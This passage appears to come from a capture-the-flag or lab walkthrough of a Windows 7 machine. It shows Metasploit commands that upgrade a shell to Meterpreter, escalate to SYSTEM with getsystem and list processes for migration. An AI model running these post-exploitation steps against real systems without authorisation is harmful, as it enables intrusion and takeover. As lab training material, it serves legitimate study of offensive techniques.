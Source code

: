 1. As a result, we can successfully see that we are **nt authority/system** on this box.

## Escalate

- We have a shell, now lets upgrade it to a meterpreter shell. If we didn't get a shell the first time, it's ok to retry the exploit. But it is damaging to the machine and could crash it. Retry at your own risk.

1. Background the shell
   ```bash
   CTRL-Z
   Background session 1 (y/N)?
   msf5>
   ```
1. search for the upgrade module _shell_to_meterpreter_

   ```bash
   msf5> search shell_to_meterpreter
   msf5> use post/multi/manage/shell_to_meterpreter
   msf5> set SESSION 1
   ```

1. If this was successful, we should see a second session available. It, please try once more.

   ```bash
   msf5> sessions
   1...
   2...
   ```

1. Now, lets use that session.

   ```bash
   msf5> sessions -i 2
   meterpreter > getsystem
   ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
   meterpreter > shell
   Process 1476 created.
   Channel 1 created.
   Microsoft Windows [Version 6.1.7601]
   Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

   C:\Windows\system32>whoami
   whoami
   nt authority\system

   C:\Windows\system32>
   ```

1. List the processess running with the ps command. Just because we are system doesn't mean our precess is. Locate the process towards the bottom of this list where NT AUTHORITY/SYSTEM and write down the process id in the far left column

   ```bash
   2912  2180  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
   ```
